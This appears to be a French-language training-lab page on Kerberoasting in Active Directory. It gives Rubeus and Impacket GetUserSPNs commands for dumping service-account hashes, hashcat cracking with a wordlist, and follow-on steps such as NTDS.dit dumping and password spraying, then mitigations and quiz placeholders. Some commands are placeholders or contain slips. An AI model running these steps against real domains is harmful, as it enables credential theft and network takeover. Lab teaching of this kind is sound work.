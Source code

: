 ### KERBEROASTING ("Rotissâge")

<img src="https://www.shopenseigne.fr/wp-content/uploads/2020/05/enseigne-lumineuse-double-face-rotisserie-ref-06-shop-enseigne-production-13001-marseille-4.jpg" width="30%" height="30%">


<img src="https://raw.githubusercontent.com/mehdi-lamrani/hacking-workshop/main/img/Kerberoasting.png" width="70%" height="70%">

- Dans cette phase, nous couvrirons l'une des attaques Kerberos les plus populaires : Le Kerberoasting. 

- Le Kerberoasting est une attaque post-exploitation qui extrait les hash d'informations d'identification de compte de service d'Active Directory pour les craquer en offline. 

- C'est une attaque courante et omniprésente qui exploite une combinaison de chiffrement faible et de mauvaise hygiène des mots de passe des comptes de service.

- Le Kerberoasting permet à un utilisateur de demander un ticket de service pour tout service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service.   
- Si le service a un SPN enregistré, il peut être Kerberoastable, mais le succès de l'attaque dépend de la force du mot de passe et s'il est traçable ainsi que des privilèges du compte de service craqué.  

**_Rappel_**

_Un nom principal de service (SPN) est un identifiant unique d'une instance de service.  
Les SPN sont utilisés par l'authentification Kerberos pour associer une instance de service à un compte de connexion au service.  
Cela permet à une application cliente de demander au service d'authentifier un compte même si le client n'a pas le nom du compte._

**Enumeration**

- Pour énumérer les comptes Kerberoastable, je suggérerais **un outil comme BloodHound** pour trouver tous les comptes "Kerberoastables", il vous permettra de voir quel type de comptes vous pouvez kerberoast s'ils sont administrateurs de domaine, et quel type de connexions ils ont avec le reste du domaine.  
C'est un excellent outil pour trouver des comptes à cibler. 
- Si vous le souhaitez vous pouvez l'exécuter pour explorer le domaine dans un premier temps

Afin d'effectuer l'attaque, nous utiliserons à la fois Rubeus et Impacket afin que vous compreniez les différents outils disponibles pour Kerberoasting. 
Il existe d'autres outils tels que kekeo et Invoke-Kerberoast, mais je vous laisse faire vos propres recherches sur ces outils.

Pour vous faciliter la tâche, **Rubeus est déjà mis sur la machine pour vous**. 
il se trouve dans le dossier de téléchargements.


### **Kerberoasting avec Rubeus** 

1.) ```cd downloads``` - accédez au répertoire dans lequel se trouve Rubeus

2.) ```Rubeus.exe kerberoast``` -  Cela videra le hachage Kerberos de tous les utilisateurs kerberoastable

<img src="https://imgur.com/XZegVqf.png"/>

copiez le hash sur votre machine attaquante et placez-le dans un fichier .txt afin que nous puissions le cracker avec hashcat

Nous utiliserons une liste de mots rockyou modifiée afin d'accélérer le processus, téléchargez-la [ici](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt)

3.) ```hashcat -x nnnnn -x n aaaaa bbbbb``` -  cracker ce hash  
    ```Usage: hashcat [options]... hash|hashfile dictionaryfile```  
       https://hashcat.net/wiki/doku.php?id=hashcat#options 

### **Méthode 2 - Impacket**

**Installation d'Impacket**

Les versions d'Impacket sont instables depuis la 0.9.20. Je suggère d'avoir une installation d'Impacket < 0.9.20

1.) ```cd /opt``` -  accédez à votre répertoire préféré pour enregistrer les outils dans

2.) téléchargez le package précompilé à partir de ```https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19```

3.) ```cd Impacket-0.9.1``` - accédez au répertoire impacket

4.) ```pip install requirements.txt``` - cela installera toutes les dépendances nécessaires

**Kerberoasting avec Impacket**

1.) ```cd /usr/share/doc/python3-impacket/examples/ - accédez à l'emplacement de GetUserSPNs.py```

2.) ```sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request``` - cela videra le hachage Kerberos pour tous les comptes kerberoastable qu'il peut trouver sur le domaine cible, comme le fait Rubeus.   
Cependant, cela ne doit pas nécessairement être sur la machine cible et peut être effectué à distance.

3.) ```hashcat -x nnnnn -x n aaaaa bbbbb``` -  cracker ce hachage  
    ```Usage: hashcat [options]... hash|hashfile dictionaryfile```  
       https://hashcat.net/wiki/doku.php?id=hashcat#options 

**Que peut faire un compte de service ?**

- Après avoir déchiffré le mot de passe du compte de service, il existe différentes manières d'exfiltrer des données ou de collecter un butin selon que le compte de service est un administrateur de domaine ou non.  
- Si le compte de service est un administrateur de domaine, vous disposez d'un contrôle similaire à celui d'un ticket Golden/Silver et pouvez désormais collecter un butin tel que le dumping du NTDS.dit.  
- Si le compte de service n'est pas un administrateur de domaine, vous pouvez l'utiliser pour vous connecter à d'autres systèmes et faire pivoter ou escalader ou vous pouvez utiliser ce mot de passe piraté pour pulvériser contre d'autres comptes d'administrateur de service et de domaine
- De nombreuses entreprises peuvent réutiliser des mots de passe identiques ou similaires pour leurs utilisateurs administrateurs de service ou de domaine.   
- Si vous participez à un test d'intrusion professionnel, sachez comment l'entreprise veut que vous montriez le risque la plupart du temps, elle ne veut pas que vous exfiltrez des données et vous fixera un objectif ou un processus à atteindre afin de montrer le risque à l'intérieur de l'évaluation.

---

### **Mitigation : Défendre la forêt**

**Se prémunir du Kerberoasting :**

- :white_check_mark: Optez pour des mots de passe de service forts :muscle: - Si les mots de passe du compte de service sont forts, le kerberoasting sera inefficace
- :no_entry_sign: N'autorisez pas de comptes de service comme administrateurs de domaine :no_entry_sign: :   
  Les comptes de service n'ont pas besoin d'être des administrateurs de domaine, kerberoasting ne sera pas aussi efficace si vous ne faites pas des comptes de service comme administrateurs de domaine.

**Répondre aux questions ci-dessous**

Quel est le mot de passe HTTPService ?
```
reponse
```
Quel est le mot de passe SQLService ?
```
reponse
```

---

### Bonus :      
Comment pouvez vous exploiter les mots de passe collectés de la façon que vous souhaitez
```
reponse(s)
```
